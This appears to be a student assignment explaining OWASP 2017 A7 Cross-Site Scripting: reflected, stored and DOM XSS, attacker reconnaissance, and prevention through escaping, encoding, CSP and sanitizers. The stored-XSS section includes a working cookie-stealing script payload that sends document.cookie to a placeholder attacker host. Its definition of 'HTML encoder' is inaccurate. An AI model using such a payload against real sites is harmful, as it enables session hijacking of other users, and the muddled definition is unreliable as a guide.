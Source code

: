 # Week-12 OWASP A7 Cross-Site Scripting (XSS)
Group: Martin Frederiksen(cph-mf237), Andreas Vikke(cph-av105).


### Explain the “sections”, “Is the Application Vulnerable” and “How to Prevent” for the OWASP 2017 Risks: A7
- **Reflected XSS:** The user interacts with a link that sends them to a site with data from the attacker. This data can be javascript that extracts information and sends it futher to the atrackers server.
- **Stored XSS:** The attacker  stores unsanitized data in the database which later shows up in other users browsers and executes.
- **DOM XSS:** The websites framework dynamically includes a libary which the attacker has control over.
- **Prevent:** To prevent the data needs to be seperated of unstruted data. This can be done with frameworks that escape XXS, escaping untrusted HTTP request, applying context-sensitive encoding, eneabeling CSP as a defense-in-depth.


### Demonstrate a simple reflected XSS example
The attacker can make an e-mail with information about the company, and a link to the real companies site. The link then points to a search site with a script that extracts the current users JSSESSION and sends it to the attackers server.


### Explain and Demonstrate a stored XSS attack with session hijacking and a subsequent attack using the “stolen” session ID
A stored XSS attack is when the attacker saves a script in the database which is then run in other users browser when it gets to them.
The attacker creates an account and in the USername field he adds <script>fetch("http://XXXX:666/evil?cookie="+document.cookie);</script> Then when users or admins see this his username, be it on a forum or in a list of users, the browser sends the JSSESSION cookie to the attackers server.


### What kind of “indications” will an attacker look for in a WEB-page before testing whether the site is vulnerable to XSS-attacks?
The attackers first looks if the server is SSL protected, if not the server sends unencrypted data, after this he looks for input fields, some input fields could be unsanitized, so more is better.


### Explain and demonstrate ways to prevent XSS-attacks
There are many ways to prevent XSS, some newer frameworks have it build in even. You can escape the XSS by design, escape untrusted HTTP requests, apply sanitation on the server site, apply context-sensitive encoding.

### Explain the terms HTML Sanitizer and HTML Encoder and their purposes
- **HTML sanitization:** examines the HTML document and makes a new HTML document that removes all the tags that are not safe, such as <script>, <object>, <embed>, <link>. The sanitation is typically using a whitelist or blacklist approch. The whitelist allows nothing but the whitelistet item, and the blacklist allows everything but the blacklistet items.
- **HTML encoder:** The encoding of the HTML document determines what character encoding to be used, default UTF-8.